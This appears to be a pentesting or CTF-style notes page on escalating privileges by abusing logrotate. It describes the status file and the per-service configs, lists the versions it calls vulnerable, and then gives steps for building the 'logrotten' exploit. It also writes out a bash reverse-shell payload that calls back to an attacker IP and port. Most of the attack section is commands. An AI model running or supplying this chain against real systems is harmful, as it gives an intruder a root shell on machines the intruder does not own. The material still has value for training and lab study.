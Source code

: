 ### Status File:
Tracks last rotation date:
```bash
$ sudo cat /var/lib/logrotate.status
/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

### Per-Service Configs:
Stored in `/etc/logrotate.d/`

Example: `/etc/logrotate.d/dpkg`
```conf
/var/log/dpkg.log {
    monthly
    rotate 12
    compress
    delaycompress
    missingok
    notifempty
    create 644 root root
}
```

## 🚨 Exploitation Requirements
- Write access to log files
- Logrotate must run as root
- Vulnerable versions:
  - 3.8.6
  - 3.11.0
  - 3.15.0
  - 3.18.0

## 🧨 Exploit: Logrotten
### Setup
```bash
$ git clone https://github.com/whotwagner/logrotten.git
$ cd logrotten
$ gcc logrotten.c -o logrotten
```

### Payload
Create a reverse shell payload:
```bash
$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

### Confirm Logrotate Behavior
```bash
$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"
create
```
